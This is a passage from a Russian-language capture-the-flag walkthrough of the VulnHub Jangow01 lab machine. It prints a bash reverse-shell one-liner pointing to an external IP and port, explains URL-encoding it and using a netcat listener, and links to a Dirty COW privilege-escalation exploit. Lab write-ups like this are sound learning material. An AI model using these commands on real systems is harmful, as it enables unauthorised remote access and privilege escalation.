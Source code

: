 ![Untitled](01%20JANGOW01%20VirtualMachine%207768c6dee6074c69a76a4f864d573c84/Untitled%2020.png)

Далее нам нужно запустить удаленно этот скрипт. Для этого мы можем прокинуть reverse-shell чтобы удаленно попасть на сервер и там уже запустить этот скрипт.

Дальше я скрафтил следующий reverse-shell 

 **/bin/bash -c 'bash -i >& /dev/tcp/89.175.27.64/9999 0>&1’**  если мы введем в адресную строку этот скрипт, то он не сможет отработать, так как мы можем на доле секунду увидеть то, что наши некоторые знаки енкодятся в url и поэтому скрипт не правильно будет отображаться в системе и тем самым скрипт не отработает, как нужно. Поэтому берем скрипт → encode url и вводим в адресную строку и после этого прослушиваем nc -nvlp 9999 и нам должен вернуться коннект от сервера, но в моем случае этот вариант не работает. (не знаю с чем связанно).

И тут я попал в тупик. Посмотрев [райтап](https://testingonprod.com/2021/12/05/vulnhub-jangow-1-0-1-writeup/) на эту машину у **David Mentgen.** Он тоже попал в тупик, как и я на этом моменте. И он пошел по другому пути, залогиневшись в VM и там уже  продолжал пентестить тачку. Посмотрев далее он стал эксплотировать 
**[уязвимость Dirty COW](https://ru.wikipedia.org/wiki/%D0%A3%D1%8F%D0%B7%D0%B2%D0%B8%D0%BC%D0%BE%D1%81%D1%82%D1%8C_Dirty_COW) ←тык для ознакомления.** Эта уязвимость позволяла пользователю повысить права.

Ну пробуем его вариант.

 Для этого, нам нужно с **[github скачать скрипт](https://gist.github.com/scumjr/17d91f20f73157c722ba2aea702985d2)** 

![Untitled](01%20JANGOW01%20VirtualMachine%207768c6dee6074c69a76a4f864d573c84/Untitled%2021.png)
